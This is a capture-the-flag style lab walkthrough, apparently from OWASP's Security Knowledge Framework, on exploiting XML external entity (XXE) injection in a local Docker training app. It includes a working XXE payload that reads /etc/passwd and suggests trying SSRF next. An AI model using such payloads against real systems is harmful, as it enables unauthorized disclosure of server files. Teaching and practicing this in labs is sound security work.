


# XXE

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:js-xxe
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:js-xxe
```


Now that the app is running let's go hacking!


## Reconnaissance

Processing of an Xml eXternal Entity containing tainted data may lead to the disclosure of confidential information and other system impacts. The XML 1.0 standard defines the structure of an XML document. The standard defines a concept called an entity, which is a storage unit of some type.There exists a specific type of entity, an external general parsed entity often shortened to an external entity, that can access local or remote content via a declared system identifier and the XML processor may disclose confidential information normally not accessible by the application. Attacks can include disclosing local files, which may contain sensitive data such as passwords or private user data.



When we start the application we can see that the application uses the following XML tags and use those to display information on the website in a nice manner. First we load the normal file and submit this in the application.


## Exploitation

In order to to exploit this vulnerability we need to craft a special XML header that will allow us for example read local files from the server.

```markup
<!DOCTYPE item [ <!ELEMENT item ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<items><item name="item1">a</item>
<item name="item2">&xxe;</item>
<item name="item3">c</item>
<item name="item4">d</item>
</items>
```

When we inject the above XML content we can see in the response of the application that we successfully have included the local file from the server.



We now used the **file://** to read local files from the server but there are many other attack vectors you can do with this vulnerability, do some research and also try the other ones like the Server Side Request Forgery for example.

## Additional sources


